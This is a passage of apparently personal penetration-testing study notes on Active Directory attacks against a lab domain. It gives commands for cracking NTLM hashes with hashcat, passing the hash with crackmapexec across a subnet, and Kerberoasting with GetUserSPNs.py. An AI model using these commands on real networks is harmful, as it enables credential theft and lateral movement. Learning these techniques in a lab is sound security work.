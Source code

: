     Identify the hash
    
    Crack the hash with hashcat
    hashcat64 .exe -m 1000 hash.txt rockyou.txt -O
    
    Selecionar a segunda parte da hash
    
    crackmapexec smb 192.168.0.0/24 -u "Frank Castle" -H <Hash> --local
    ```
    
- Kerberos
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%208.png)
    
    ```bash
    GetUserSPNs.py marvel.local/fcastle:password -dc-ip 192.168.57.140 -request
    ```
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%209.png)
    